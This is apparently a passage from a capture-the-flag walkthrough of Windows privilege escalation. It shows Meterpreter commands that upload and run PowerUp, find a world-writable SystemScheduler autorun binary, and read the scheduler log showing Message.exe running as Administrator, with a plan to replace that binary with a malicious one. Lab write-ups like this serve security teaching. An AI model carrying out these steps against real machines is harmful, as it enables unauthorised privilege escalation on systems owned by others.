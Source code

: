 Upload the file to the target machine. As you can see meterpreter provides a very convenient `upload` command.

```bash
meterpreter > upload /root/PowerUp.ps1
[*] Uploading  : /root/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /root/PowerUp.ps1 -> PowerUp.ps1
```

Load the powershell module, fire up a powershell shell and run the script.

```bash
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

....
Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WScheduler
Path           : C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
ModifiableFile : @{ModifiablePath=C:\PROGRA~2\SYSTEM~1\WScheduler.exe; IdentityReference=Everyone;
                 Permissions=System.Object[]}
Name           : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WScheduler
Check          : Modifiable Registry Autorun

Key            : HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run\WScheduler
Path           : C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
ModifiableFile : @{ModifiablePath=C:\PROGRA~2\SYSTEM~1\WScheduler.exe; IdentityReference=Everyone;
                 Permissions=System.Object[]}
Name           : HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run\WScheduler
Check          : Modifiable Registry Autorun
...
```

From the partial output we notice that the scheduler service is running.  
The Windows scheduler is a very interesting service for our purposes. Its job is to run other executables at specific times: if we manage to replace one of those executables, our malicious executable will run with the permissions associated with the user account under which the scheduled task was created.  
Explore the folder that contains WScheduler.exe, `C:\PROGRA~2\SYSTEM~1\` which is a shortened version for `C:\Program Files (x86)\SystemScheduler`  
In the Events folder there is an interesting log.

```bash
meterpreter > cd "C:\\Program Files (x86)\\SystemScheduler\\Events"
meterpreter > ls
Listing: C:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1961   fil   2024-09-22 17:23:33 +0100  20198415519.INI
100666/rw-rw-rw-  52139  fil   2024-09-22 17:23:33 +0100  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 22:50:12 +0100  2020102145012.INI
100666/rw-rw-rw-  186    fil   2024-09-22 17:16:27 +0100  Administrator.flg
100666/rw-rw-rw-  182    fil   2024-09-22 17:16:25 +0100  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2024-09-22 13:09:10 +0100  Scheduler.flg
100666/rw-rw-rw-  449    fil   2024-09-22 17:16:27 +0100  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2024-09-22 17:16:48 +0100  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
......
09/22/24 09:19:01,Event Started Ok, (Administrator)
09/22/24 09:19:33,Process Ended. PID:2324,ExitCode:4,Message.exe (Administrator)
09/22/24 09:20:01,Event Started Ok, (Administrator)
```
